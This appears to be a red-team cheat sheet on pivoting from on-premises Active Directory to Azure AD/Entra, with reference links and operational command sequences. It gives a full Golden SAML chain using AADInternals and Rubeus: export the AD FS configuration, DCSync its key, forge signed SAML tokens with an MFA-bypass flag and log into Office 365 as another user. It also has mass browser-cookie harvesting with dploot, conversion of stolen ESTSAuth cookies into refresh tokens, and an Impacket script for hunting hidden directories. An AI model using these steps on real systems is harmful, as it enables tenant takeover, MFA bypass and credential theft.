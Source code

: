 # On-Prem → Cloud

- [https://aadinternals.com/post/on-prem_admin/](https://aadinternals.com/post/on-prem_admin/)
- [https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/](https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/)
- [https://nullg0re.com/2024/05/cracking-zero-trust-on-prem-to-azure-pivots-with-responder-and-evilginx2/](https://nullg0re.com/2024/05/cracking-zero-trust-on-prem-to-azure-pivots-with-responder-and-evilginx2/)




## Dumping AAD Connect Creds

- [https://dirkjanm.io/updating-adconnectdump-a-journey-into-dpapi/](https://dirkjanm.io/updating-adconnectdump-a-journey-into-dpapi/)
- [https://aadinternals.com/post/adsync/](https://aadinternals.com/post/adsync/)
- [https://imphash.medium.com/shooting-up-on-prem-to-cloud-detecting-aadconnect-creds-dump-422b21128729](https://imphash.medium.com/shooting-up-on-prem-to-cloud-detecting-aadconnect-creds-dump-422b21128729)
- [https://rioasmara.com/2020/07/07/azure-ad-connect-post-exploitation-for-dcsync/](https://rioasmara.com/2020/07/07/azure-ad-connect-post-exploitation-for-dcsync/)
- [[PDF] Hacking Azure AD via Active Directory (Dirk-jan Mollema, @_dirkjan)](https://dirkjanm.io/assets/raw/TR19-Im%20in%20your%20cloud.pdf)



### Tools

- [https://github.com/dirkjanm/adconnectdump](https://github.com/dirkjanm/adconnectdump)
- [https://github.com/Hagrid29/DumpAADSyncCreds](https://github.com/Hagrid29/DumpAADSyncCreds)




## Forging AD FS SAML Tokens (Golden SAML)

- [https://aadinternals.com/post/adfs/](https://aadinternals.com/post/adfs/)
- [https://github.com/Gerenios/AADInternals/tree/ff0d29fd77cbcb32ce2a1837a1d94d8be0be8466](https://github.com/Gerenios/AADInternals/tree/ff0d29fd77cbcb32ce2a1837a1d94d8be0be8466)
- [https://github.com/Azure/SimuLand/blob/main/docs/labs/GoldenSAML/simulation/export-adfs-dkm-key/exportADFSDKMKeyDRS.md](https://github.com/Azure/SimuLand/blob/main/docs/labs/GoldenSAML/simulation/export-adfs-dkm-key/exportADFSDKMKeyDRS.md)

Install AADInternals v0.9.3:

```
PS > Install-Module -Name "AADInternals" -RequiredVersion "0.9.3" -Force
PS > Import-Module -Name "AADInternals" -RequiredVersion "0.9.3" -Force
```

Check if Azure is configured as a party trust:

```
PS > Install-WindowsFeature ADFS-Federation
PS > Import-Module ADFS
ADFS > Get-ADFSRelyingPartyTrust | select Identifier | fl
```

Get AD FS config:

```
AADInt > $ADFSConfig = Export-AADIntADFSConfiguration -Hash <ADFS_SVC_NT_HASH> -SID <ADFS_SVC_SID> -Server ADFS01.megacorp.local
PS > [xml]$xml=$ADFSConfig
PS > $group = $xml.ServiceSettingsData.PolicyStore.DkmSettings.Group
PS > $container = $xml.ServiceSettingsData.PolicyStore.DkmSettings.ContainerName
PS > $parent = $xml.ServiceSettingsData.PolicyStore.DkmSettings.ParentContainerDn
PS > $base = "LDAP://CN=$group,$container,$parent"
PS > $base
```

Get private key object GUID:

```
PV3 > Get-DomainObject -LDAPFilter "(&(objectclass=contact)(!name=CryptoPolicy)(ThumbnailPhoto=*))" -SearchBase "CN=ADFS,CN=Microsoft,CN=Program Data,DC=megacorp,DC=local" | select objectGuid
```

Ensure you have enough privileges to DCSync:

```
Cmd > Rubeus.exe asktgt /user:DC01$ /domain:megacorp.local /dc:DC01.megacorp.local /aes256:<AES_KEY> /opsec /nowrap /ptt
Cmd > Rubeus.exe asktgs /ticket:<TICKET> /domain:megacorp.local /dc:DC01.megacorp.local /service:LDAP/DC01.megacorp.local /nowrap /ptt
```

DCSync the key:

{% hint style="info" %}
We don't actually need clear-text creds to replicate the key if we've already imported a privileged TGT, so `$Credentials` ([here](https://github.com/Gerenios/AADInternals/blob/49a9659b60672f08428e72148b66dfe4629562da/DRS_Utils.ps1#L242), `C:\Program Files\WindowsPowerShell\Modules\AADInternals\0.9.3\DRS_Utils.ps1`) can be omitted.
{% endhint %}

```
AADInt > $ADFSKey = Export-AADIntADFSEncryptionKey -Server DC01.megacorp.local -ObjectGuid <GUID> -Credentials "dummy"
PS > [System.BitConverter]::ToString($ADFSKey)
```

Generate the token signing certificate:

```
AADInt > Export-AADIntADFSCertificates -Configuration $ADFSConfig -Key $ADFSKey
PS > ls ADFS_*
```

Get AD FS trust issuer as well as on-prem users' immutable cloud IDs:

```
ADFS > $Issuer = (Get-ADFSProperties).Identifier.OriginalString
PV3 > Get-DomainUser | select UserPrincipalname, @{Name="ImmutableId"; Expression={"$([Convert]::ToBase64String(([guid]$_.ObjectGuid).ToByteArray()))"}}
```

Generate forged SAML request-response for WS-Federation (SOAP-based) protocol interchange:

```
AADInt > $token = New-AADIntSAMLToken -ImmutableId <ID> -PfxFileName .\ADFS_signing.pfx -Issuer $Issuer [-UPN j.doe@megacorp.com] [-ByPassMFA]
AADInt > New-WSFedResponse -SAMLToken $token
```

Generate forged SAML request-response for SAML 2.0 (XML-based) protocol interchange:

```
AADInt > $token = New-AADIntSAML2Token -ImmutableId <ID> -PfxFileName .\ADFS_signing.pfx -Issuer $Issuer [-UPN j.doe@megacorp.com]
AADInt > $resp = New-AADIntSAMLPResponse -SAML2Token $token
AADInt > [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($resp))
```

Generate forged SAML request-response, impersonate and login:

```
AADInt > Open-AADIntOffice365Portal -TokenType WSFED/SAMLP -ImmutableId <BASE64_ID> -PfxFileName .\ADFS_signing.pfx -Issuer $Issuer [-UPN j.doe@megacorp.com] [-ByPassMFA] [-Browser Chrome]
```




## Pass-the-Cookie

- [https://blog.netwrix.com/2022/11/29/bypassing-mfa-with-pass-the-cookie-attack/](https://blog.netwrix.com/2022/11/29/bypassing-mfa-with-pass-the-cookie-attack/)



### Refresh Token from ESTSAuth* Cookies

Automated with [TokenTacticsV2](https://github.com/f-bader/TokenTacticsV2?tab=readme-ov-file#get-a-refresh-token-from-estsauth-cookie):

```
PS > Get-AzureTokenFromESTSCookie -ESTSAuthCookie <COOKIE_VALUE>
```



### Mass Cookies Harvesting

Collect with [dploot](https://github.com/zblurx/dploot) and decrypt with a backup key (similar to [HEKATOMB](https://github.com/ProcessusT/HEKATOMB)):

```
$ ls tickets/
SRV01.ccache   SRV02.ccache   PC01.ccache
$ for st in `ls tickets/`; do comp=`basename $st .ccache`; KRB5CCNAME="tickets/$st" proxychains4 dploot browser -d megacorp.local -no-pass -use-kcache "$comp.megacorp.local" -pvk ../key.pvk -show-cookies > "browsers_$comp.out"; done
```

Search for `ESTSAUTHPERSISTENT` cookies:

```
$ grep -nr --include '*.out' ESTSAUTHPERSISTENT -A3 | grep -e Creation -e Expires
```




## Mass Hidden Directories Searching

Impacket's **smbclient.py** extension (searches for hidden directories in every user's home):

```python
def do_hidden(self, args=None):
    hidden = []
    for item1 in self.smb.listPath(self.share, '\\Users\\*'):
        longname1 = item1.get_longname()
        if item1.is_directory() and longname1 not in ('.', '..'):
            dir0 = ntpath.join('\\Users', longname1)
            try:
                ls = self.smb.listPath(self.share, ntpath.join(dir0, '*'))
            except:
                continue
            else:
                for item2 in ls:
                    longname2 = item2.get_longname()
                    if item2.is_directory() and longname2 not in ('.', '..') and longname2.startswith('.'):
                        hidden.append((item2, ntpath.join(dir0, longname2)))
    result = ''
    for item, name in hidden:
        result += 'drw-rw-rw- '
        result += f'{datetime.fromtimestamp(item.get_mtime_epoch()).strftime("%Y/%m/%d %H:%M:%S"):>21} '
        result += '  '
        result += name
        result += '\n'
    print(result.strip())
```

Collect hidden directories:

```
$ ls tickets/
SRV01.ccache   SRV02.ccache   PC01.ccache
$ echo 'use c$\ninfo\nhidden' > cmd
$ for st in `ls tickets/`; do comp=`basename $st .ccache`; KRB5CCNAME="tickets/$st" proxychains4 smbclient.py -k -no-pass "$comp.megacorp.local" -inputfile cmd -outputfile "hidden_$comp.out"; done
```

Search for hidden directories that start with `.az`:

```
$ grep -nr --include '*.out' '\Users' | grep -i '\.az'
```
